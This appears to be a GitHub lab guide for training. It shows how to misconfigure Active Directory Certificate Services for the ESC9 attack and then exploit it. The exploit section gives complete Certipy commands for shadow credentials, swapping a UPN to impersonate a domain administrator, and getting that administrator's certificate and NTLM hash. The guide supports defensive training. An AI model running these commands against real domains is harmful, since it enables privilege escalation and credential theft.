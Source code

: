 # AD CS ESC9 - A guide on making your AD CS vulnerable to a cool attack

AD CS ESC9 is a cool attack that takes advantage of a certificate template having the no Security Extension flag set on msPKI-EnrollmentFlag. This enables an attacker with write privileges and control of an account with enrollment rights over the vulnerable certificate to change the UPN of the target account to an arbitrary user, like a domain administrator. Once set, the attacker can request a certificate using the vulnerable template with the target account and retrieve a certificate for the UPN the attacker specified. This certificate can then be used to retrieve an NTLM hash for Pass-the-Hash or offline cracking. This misconfiguration may arise from taking improper actions in KB5014754 guidance.

This is an uncommon misconfiguration, but AD CS misconfigurations like ESC1, 3, 4, 8, and 11 are extremely common. This one is just flashy and allows Red Teams to pivot to other accounts and escalate privileges quietly. 

AD CS is extremely important for OTR due to trends encountered throughout the state in Pentests and even on an IR. Educating the training audience on AD CS misconfigurations may help prevent future attacks using these misconfiguration to wreck havoc.

## Dependecies
+ Windows updates on servers May 10, 2022 and September 10, 2025
+ Cetificate Authority Role on Windows Server 2019+
+ user1 with generic write over user2 and an user3 to go for
+ Certipy-AD.
+ The need for speed

## Steps to create the misconfiguration
1. Give user1 generic write of user2
2. Pick a Certificate Template like ```DomainControllerAuthentication```
3. Give user2  enrollment rights. (This account is going to be used to request a certificate for other users.)
4. Set ```CT_FLAG_NO_SECURITY_EXTENSION``` flag in ```msPKI-EnrollmentFlag```
  + ```certutil -dstemplate DomainControllerAuthentication msPKI-Enrollment-Flag +0x00080000```
6. Ensure a user has write privileges over a user with enrollment rights to the vulnerable template.
7. Money.

## Steps to exploit the misconfiguration
1. Retrieve user2's hash with a shadow credentials attack.
   
```certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2```

3. Change the UPN of user2 to an arbitrary user like a Domain Administrator, but do not specify the domain.

```certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3```

4. Request a certificate for user2 using the vulnerable template.

```certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'```

5. Change the UPN of user2 back to the original. 

```certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"```

6. Authenticate with the new certificate.

```certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"```

7. Cash out

## Resources
[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#no-security-extension-esc9)
